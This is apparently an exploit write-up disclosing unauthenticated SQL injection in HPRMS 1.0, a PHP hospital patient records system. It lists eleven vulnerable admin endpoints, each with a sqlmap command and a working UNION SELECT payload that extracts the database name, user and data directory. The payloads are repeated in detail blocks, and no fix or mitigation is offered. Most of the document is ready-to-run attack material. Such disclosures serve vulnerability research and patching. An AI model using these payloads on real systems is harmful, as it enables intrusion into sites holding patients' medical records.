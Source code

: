 ### Exploit Title: HPRMS - SQL injection

### Vendor Homepage: https://www.sourcecodester.com/

### Software Link: https://www.sourcecodester.com/php/15116/hospitals-patient-records-management-system-php-free-source-code.html

### Version: HPRMS 1.0

### Tested on: Win10, Apache

> Description

Some foreground SQL injection issues in HPRMS v.1.0, Available without admin login

> Vulnerability point

1. http://localhost/hprms/admin/doctors/view_doctor.php?id=1
2. http://localhost/hprms/admin/doctors/manage_doctor.php?id=1
3. http://localhost/hprms/admin/patients/manage_patient.php?id=1
4. http://localhost/hprms/admin/patients/view_history.php?id=1
5. http://localhost/hprms/admin/patients/manage_admission.php?id=1
6. http://localhost/hprms/admin/patients/manage_history.php?id=1
7. http://localhost/hprms/admin/patients/view_admission.php?id=1
8. http://localhost/hprms/admin/room_types/view_room_type.php?id=1
9. http://localhost/hprms/admin/room_types/manage_room_type.php?id=1
10. http://localhost/hprms/admin/rooms/view_room.php?id=1
11. http://localhost/hprms/admin/rooms/manage_room.php?id=1

> exploit

1. python sqlmap.py -u http://localhost/hprms/admin/doctors/view_doctor.php?id=1

2. python sqlmap.py -u http://localhost/hprms/admin/doctors/manage_doctor.php?id=1
3. python sqlmap.py -u http://localhost/hprms/admin/patients/manage_patient.php?id=1
4. python sqlmap.py -u http://localhost/hprms/admin/patients/view_history.php?id=1
5. python sqlmap.py -u http://localhost/hprms/admin/patients/manage_admission.php?id=1
6. python sqlmap.py -u http://localhost/hprms/admin/patients/manage_history.php?id=1
7. python sqlmap.py -u http://localhost/hprms/admin/patients/view_admission.php?id=1
8. python sqlmap.py -u http://localhost/hprms/admin/room_types/view_room_type.php?id=1
9. python sqlmap.py -u http://localhost/hprms/admin/room_types/manage_room_type.php?id=1
10. python sqlmap.py -u http://localhost/hprms/admin/rooms/view_room.php?id=1
11. python sqlmap.py -u http://localhost/hprms/admin/rooms/manage_room.php?id=1

> verify

1. http://localhost/hprms/admin/doctors/view_doctor.php?id=-7873' UNION ALL SELECT NULL,(select database()),(select user()),@@datadir,NULL,NULL,NULL,NULL-- -
2. http://localhost/hprms/admin/doctors/manage_doctor.php?id=-1485' UNION ALL SELECT NULL,(select database()),(select user()),@@datadir,NULL,NULL,NULL,NULL-- -
3. view-source:http://localhost/hprms/admin/patients/manage_patient.php?id=-93' UNION ALL SELECT CONCAT((select database()),0x7e,(select user())),NULL,NULL,NULL,NULL,NULL,NULL-- -
4. http://localhost/hprms/admin/patients/view_history.php?id=1' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT((select database()),0x7e,(select user()))-- -
5. view-source:http://localhost/hprms/admin/patients/manage_admission.php?id=1' UNION ALL SELECT CONCAT((select database()),0x7e,(select user())),NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
6. http://localhost/hprms/admin/patients/manage_history.php?id=1' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,CONCAT((select database()),0x7e,(select user())),NULL,NULL,NULL-- -
7. view-source:http://localhost/hprms/admin/patients/view_admission.php?id=1' UNION ALL SELECT NULL,CONCAT((select database()),0x7e,(select user())),NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
8. http://localhost/hprms/admin/room_types/view_room_type.php?id=-3985' UNION ALL SELECT NULL,NULL,CONCAT((select database()),0x7e,(select user())),NULL,NULL,NULL-- -
9. http://localhost/hprms/admin/room_types/manage_room_type.php?id=-53' UNION ALL SELECT NULL,CONCAT((select database()),0x7e,(select user())),NULL,NULL,NULL,NULL-- -
10. http://localhost/hprms/admin/rooms/view_room.php?id=-87' UNION ALL SELECT NULL,NULL,NULL,NULL,CONCAT((select database()),0x7e,(select user())),NULL,NULL,NULL,NULL-- -
11. http://localhost/hprms/admin/rooms/manage_room.php?id=-27' UNION ALL SELECT NULL,NULL,CONCAT((select database()),0x7e,(select user())),NULL,NULL,NULL,NULL,NULL-- -

> Vulnerability Details
<details>
<summary>Vulnerability Details 1</summary>
exploit：python sqlmap.py -u http://localhost/hprms/admin/doctors/view_doctor.php?id=1
<img src="img/1-1.png" />
verify：http://localhost/hprms/admin/doctors/view_doctor.php?id=-7873' UNION ALL SELECT NULL,(select database()),(select user()),@@datadir,NULL,NULL,NULL,NULL-- -
<img src="img/1-2.png" />
</details>
<details>
<summary>Vulnerability Details 2</summary>
exploit：python sqlmap.py -u http://localhost/hprms/admin/doctors/manage_doctor.php?id=1
<img src="img/2-1.png" />
verify：http://localhost/hprms/admin/doctors/manage_doctor.php?id=-1485' UNION ALL SELECT NULL,(select database()),(select user()),@@datadir,NULL,NULL,NULL,NULL-- -
<img src="img/2-2.png" />
</details>
<details>
<summary>Vulnerability Details 3</summary>
exploit：python sqlmap.py -u http://localhost/hprms/admin/patients/manage_patient.php?id=1
<img src="img/3-1.png" />
verify：view-source:http://localhost/hprms/admin/patients/manage_patient.php?id=-93' UNION ALL SELECT CONCAT((select database()),0x7e,(select user())),NULL,NULL,NULL,NULL,NULL,NULL-- -
<img src="img/3-2.png" />
</details>
<details>
<summary>Vulnerability Details 4</summary>
exploit：python sqlmap.py -u http://localhost/hprms/admin/patients/view_history.php?id=1
<img src="img/4-1.png" />
verify：http://localhost/hprms/admin/patients/view_history.php?id=1' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT((select database()),0x7e,(select user()))-- -
<img src="img/4-2.png" />
</details>
<details>
<summary>Vulnerability Details 5</summary>
exploit：python sqlmap.py -u http://localhost/hprms/admin/patients/manage_admission.php?id=1
<img src="img/5-1.png" />
verify：view-source:http://localhost/hprms/admin/patients/manage_admission.php?id=1' UNION ALL SELECT CONCAT((select database()),0x7e,(select user())),NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
<img src="img/5-2.png" />
</details>
<details>
<summary>Vulnerability Details 6</summary>
exploit：python sqlmap.py -u http://localhost/hprms/admin/patients/manage_history.php?id=1
<img src="img/6-1.png" />
verify：http://localhost/hprms/admin/patients/manage_history.php?id=1' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,CONCAT((select database()),0x7e,(select user())),NULL,NULL,NULL-- -
<img src="img/6-2.png" />
</details>
<details>
<summary>Vulnerability Details 7</summary>
exploit：python sqlmap.py -u http://localhost/hprms/admin/patients/view_admission.php?id=1
<img src="img/7-1.png" />
verify：view-source:http://localhost/hprms/admin/patients/view_admission.php?id=1' UNION ALL SELECT NULL,CONCAT((select database()),0x7e,(select user())),NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
<img src="img/7-2.png" />
</details>
<details>
<summary>Vulnerability Details 8</summary>
exploit：python sqlmap.py -u http://localhost/hprms/admin/room_types/view_room_type.php?id=1
<img src="img/8-1.png" />
verify：http://localhost/hprms/admin/room_types/view_room_type.php?id=-3985' UNION ALL SELECT NULL,NULL,CONCAT((select database()),0x7e,(select user())),NULL,NULL,NULL-- -
<img src="img/8-2.png" />
</details>
<details>
<summary>Vulnerability Details 9</summary>
exploit：python sqlmap.py -u http://localhost/hprms/admin/room_types/manage_room_type.php?id=1
<img src="img/9-1.png" />
verify：http://localhost/hprms/admin/room_types/manage_room_type.php?id=-53' UNION ALL SELECT NULL,CONCAT((select database()),0x7e,(select user())),NULL,NULL,NULL,NULL-- -
<img src="img/9-2.png" />
</details>
<details>
<summary>Vulnerability Details 10</summary>
exploit：python sqlmap.py -u http://localhost/hprms/admin/rooms/view_room.php?id=1
<img src="img/10-1.png" />
verify：http://localhost/hprms/admin/rooms/view_room.php?id=-87' UNION ALL SELECT NULL,NULL,NULL,NULL,CONCAT((select database()),0x7e,(select user())),NULL,NULL,NULL,NULL-- -
<img src="img/10-2.png" />
</details>
<details>
<summary>Vulnerability Details 11</summary>
exploit：python sqlmap.py -u http://localhost/hprms/admin/rooms/manage_room.php?id=1
<img src="img/11-1.png" />
verify：http://localhost/hprms/admin/rooms/manage_room.php?id=-27' UNION ALL SELECT NULL,NULL,CONCAT((select database()),0x7e,(select user())),NULL,NULL,NULL,NULL,NULL-- -
<img src="img/11-2.png" />
</details>

